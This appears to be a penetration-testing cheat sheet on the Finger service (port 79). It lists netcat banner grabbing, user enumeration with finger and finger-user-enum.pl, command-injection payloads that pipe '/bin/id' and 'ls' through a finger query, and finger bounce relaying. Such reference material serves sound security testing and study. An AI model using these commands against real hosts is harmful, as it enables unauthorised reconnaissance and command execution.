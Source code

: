 # Finger - 79

## Finger

Finger is a program that allows you to gather information about computer users. It typically displays the login name, full name, and possibly other information about the user you are fingering. These details may include the office address and phone number \(if available\), login time, idle time, the time mail was last read, and the user's plan and project files.

Default port: 79

```text
PORT   STATE SERVICE
79/tcp open  finger
```

## Enumeration

### Banner Grabbing/Basic connection

```text
nc -vn <IP> 79
echo "username" | nc -vn <IP> 79
```

### User enumeration

```text
finger @<Victim>       #List users
finger admin@<Victim>  #Get info of user
finger user@<Victim>   #Get info of user
```

Alternatively, you can use finger-user-enum perl script from pentestmonkey:

```text
./finger-user-enum.pl -U users.txt -t 10.0.0.1
./finger-user-enum.pl -u root -t 10.0.0.1
./finger-user-enum.pl -U users.txt -T ips.txt
./finger-user-enum.pl -U /opt/SecLists/Usernames/Names/names.txt -t 10.10.10.76
```

## Command execution

```text
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```

## Finger Bounce

Use a system as a finger relay

```text
finger user@host@victim
finger @internal@external
```

